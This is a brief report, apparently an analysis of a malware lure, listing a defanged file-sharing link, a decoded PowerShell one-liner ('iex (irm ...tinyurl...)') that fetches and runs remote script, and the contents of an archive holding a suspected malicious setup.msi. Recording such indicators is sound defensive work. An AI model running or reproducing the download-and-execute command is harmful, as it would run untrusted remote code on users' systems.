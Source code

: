 ## Copied code(Added [])
https://mega[.]nz/file/4vR0lTrZ#Pm2FUVPpqGbgDiixiz7WuNo_xf6XLCXxjW-oTCtKue0

## Decoded string(added []): iex (irm https://tinyurl[.]com/35nprk4j)  
Extracted
+-2025 - PASSWORD.png
+-Deluxe_App_v.2.2.7z

In .7z
+-setup.msi (may be virus)
